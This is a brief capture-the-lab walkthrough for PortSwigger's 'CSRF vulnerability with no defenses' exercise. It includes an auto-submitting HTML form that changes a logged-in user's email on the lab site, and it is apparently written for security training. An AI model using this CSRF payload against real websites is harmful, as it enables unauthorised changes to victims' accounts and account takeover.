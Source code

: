 ## CSRF vulnerability with no defense 

Login with the credentials

![image1](/images/portswigger-csrf-vuln-no-defenses/portswigger-CSRF-vulnerability-with-no-defenses1.png)

And intercept the request

![image2](/images/portswigger-csrf-vuln-no-defenses/portswigger-CSRF-vulnerability-with-no-defenses2.png)

Now create an HTML template i did like this

```html
<html>
  <body>
    <form action="https://ac851fec1f235d3780c01e9600ff00d2.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="testtest@test.test" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html> 
```

![image3](/images/portswigger-csrf-vuln-no-defenses/portswigger-CSRF-vulnerability-with-no-defenses3.png)

Now click store, and then view exploit, and the email is changed
